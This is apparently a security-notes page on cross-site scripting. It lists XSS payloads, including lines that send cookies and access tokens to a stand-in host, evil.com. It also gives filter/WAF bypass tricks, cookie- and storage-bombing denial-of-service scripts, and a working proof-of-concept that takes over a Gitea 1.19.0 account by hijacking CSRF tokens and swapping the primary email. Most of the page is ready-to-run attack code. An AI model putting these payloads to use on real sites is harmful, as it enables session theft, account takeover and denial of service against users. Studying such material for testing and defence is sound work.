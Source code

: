 ```yaml
---
title: "XSS - Cross-site Scripting"
description: "Overview of Cross-Site Scripting"
lead: "Overview of Cross-Site Scripting"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## Basic payloads

- [Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet): List of XSS payloads.

```html
<script>alert()</script>
<img src=x onerror=alert()>
<svg onload=alert()>

<!-- Run debugger -->
<img src=x onerror=debugger>

<!-- Data exfiltration -->
<script>
document.location='//evil.com?c='.concat(document.cookie);
document.location='//evil.com?t='.concat(localStorage.getItem('access_token'));
</script>
```

## Filter/WAF Bypass

Basic filter bypass:

```html
<!-- Alternate case -->
<sCrIpt>alert()</ScRipt>
<!-- No quotes -->
alert(String.fromCharCode(88,83,83))
alert(/XSS/.source)
eval(atob(`YWxlcnQoKQ`))
<!-- No parenthesis -->
alert`1`
<!-- Alternate calls -->
["XSS"].map(alert)
\u0061\u006C\u0065\u0072\u0074("XSS")
```

Call a function using `self["<func_name>"]()`:

```html
self[location.hash.substr(1,)]("XSS") <!-- Append #alert to our URL -->
self[Object.keys(self)[5]]("XSS")

> Object.keys(self)
>>> Array(316) [ "close", "stop", "focus", "blur", "open", "alert", "confirm", "prompt", "print", "postMessage", … ]
```

## DOS

### Cookie bombing

Servers often block users that send requests with very large headers (e.g. 8K or 16K bytes).

- [431 - Request Header Fields Too Large](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431): when the total size of request headers is too large, or when a single header field is too large. Not to be confused with [414 - URI too long](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/414).

```js
const value = "a".repeat(4080);
document.cookie = "";

for (let i = 0; i < 100; i++) {
    let name = "a" + i;
    document.cookie = `${name}=${value}; path=/; domain=.example.com`;
}
```

{{< details "Nginx - large_client_header_buffers" >}}
> Syntax: 	large_client_header_buffers number size;<br>
> Default: 	large_client_header_buffers 4 8k;

- [large\_client\_header\_buffers](http://nginx.org/en/docs/http/ngx_http_core_module.html#large_client_header_buffers): Sets the maximum number and size of buffers used for reading large client request header. **By default, the buffer size is equal to 8K bytes**.
- A request header field cannot exceed the size of one buffer as well, or the 400 (Bad Request) error is returned to the client.
{{< /details >}}

{{< details "Apache - LimitRequestFieldSize" >}}
> Syntax: LimitRequestFieldSize bytes<br>
> Default: LimitRequestFieldSize 8190

- [LimitRequestFieldSize](https://httpd.apache.org/docs/current/mod/core.html#limitrequestfieldsize): specifies the number of bytes that will be allowed in an HTTP request header.
{{< /details >}}

{{< details "NodeJS - http.maxHeaderSize" >}}
- [http.maxHeaderSize](https://nodejs.org/api/http.html#httpmaxheadersize): Read-only property specifying the maximum allowed size of HTTP headers in bytes. **Defaults to 16384 (16 KiB)**.
- Configurable using the CLI option `--max-http-header-size=size` or inside [`http.request(url[, options][, callback])`](https://nodejs.org/api/http.html#httprequesturl-options-callback)
{{< /details >}}

### Local/Session Storage bombing

Local/Session storage have a size limit which depends on the web browser.

- `localStorage` and `sessionStorage` both use the [Storage interface](https://html.spec.whatwg.org/#the-storage-interface).
- The Storage interface throws a [QuotaExceededError](https://webidl.spec.whatwg.org/#dom-domexception-quota_exceeded_err) ([DOMException](https://webidl.spec.whatwg.org/#idl-DOMException)) if the quota has been exceeded.
```js
const value = "a".repeat(4080);
localStorage.clear();
sessionStorage.clear();

for (let i = 0; i < 100; i++) {
    let name = "a" + i;
    localStorage.setItem(name, value);
    sessionStorage.setItem(name, value);
}
```

- [Test of localStorage limits/quota](https://arty.name/localstorage.html): Test the limit of your browser.

{{< details "Limit - Numbers of characters" >}}
- Chrome 6.0.472.36 beta: 2600-2700k
- Firefox 3.6.8: 5200-5300k
- Explorer 8: 4900-5000k
- Opera 10.70 build 9013 popped a dialog, that allowed me to give the script unlimited storage.
{{< /details >}}

## Account Takeover

### Gitea - Change primary email

{{< details "Proof of Concept" >}}
Tested on **Gitea Version: 1.19.0**

Before running the PoC:
![Before Gitea ATO](https://i.imgur.com/eYL86BI.png)

After running the PoC:
![After Gitea ATO](https://i.imgur.com/022HvKl.png)

Proof of Concept code:
```js
const attacker_email = "evil@yopmail.com";

// 1) Obtain CSRF token
fetch("/user/settings/account").then(res => res.text()).then(data => {
    let csrfToken = data.match(/csrfToken: '([a-zA-Z0-9_-]+)',/).at(-1);
    // 2) Add secondary email address
    fetch("/user/settings/account/email", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: `_csrf=${csrfToken}&email=${attacker_email}`
    })
    .then(res => res.text()).then(data => {
        // 3) Obtain CSRF token & email ID
        fetch("/user/settings/account").then(res => res.text()).then(data => {
            let csrfToken = data.match(/csrfToken: '([a-zA-Z0-9_-]+)',/).at(-1);
            let email_id = "";

            const htmlDoc = new DOMParser().parseFromString(data, "text/html");
            const emailStrong = htmlDoc.getElementsByClassName("ui email list")[0].getElementsByTagName("strong");
            for (let i = 0; i < emailStrong.length; i++) {
              if (emailStrong[i].innerText == attacker_email) {
                email_id = emailStrong[i].parentNode.parentNode.getElementsByClassName("button delete-button")[0].getAttribute("data-id");
                break;
              }
            }
            // 4) Set the email to primary address
            fetch("/user/settings/account/email", {
                method: "POST",
                headers: {
                    "Content-Type": "application/x-www-form-urlencoded"
                },
                body: `_csrf=${csrfToken}&_method=PRIMARY&id=${email_id}`
            });
        });
    })
})
```
{{< /details >}}

## XSS to RCE

Todo:
- Wordpress
- Drupal


